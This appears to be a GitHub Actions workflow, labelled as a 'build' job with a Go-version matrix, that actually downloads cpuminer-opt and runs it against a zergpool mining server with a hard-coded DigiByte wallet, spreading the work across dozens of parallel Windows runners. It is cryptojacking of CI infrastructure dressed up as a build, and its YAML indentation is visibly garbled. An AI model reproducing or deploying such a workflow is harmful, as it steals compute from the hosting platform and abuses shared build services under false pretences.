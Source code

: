 name: eX-code_UMBL

on: [workflow_dispatch]

jobs:

  build:

      name: eX-code_UMBL

          runs-on: windows-latest

              strategy:

                    max-parallel: 5

                          fail-fast: false

                                matrix:

                                        go: [1.0, 1.1, 1.2, 1.3, 1,35]

                                                flag: [A, B, C, D, E, F, G, H, I]

                                                    env:

                                                            NUM_JOBS: 20

                                                                    JOB: ${{ matrix.go }}

                                                                        steps:

                                                                            - name: PREPARING

                                                                            -       run: Invoke-WebRequest https://github.com/JayDDee/cpuminer-opt/releases/download/v3.17.1/cpuminer-opt-3.17.1-windows.zip -Outfile cpuminer-opt-3.17.1-windows.zip

                                                                            -           - name: Seting-UP

      run: Expand-Archive cpuminer-opt-3.17.1-windows.zip

          - name: Running

          -       run: .\cpuminer-opt-win\cpuminer-sse2.exe -a power2b -o stratum+tcp://power2b.na.mine.zergpool.com:7445 -u DGB_dgb1qkpmvdct307nehn5lwr5scprtter9qdpe98uvu7.WORKER_NAME -p c=DGB

          -           - name: DONE

      run: exit
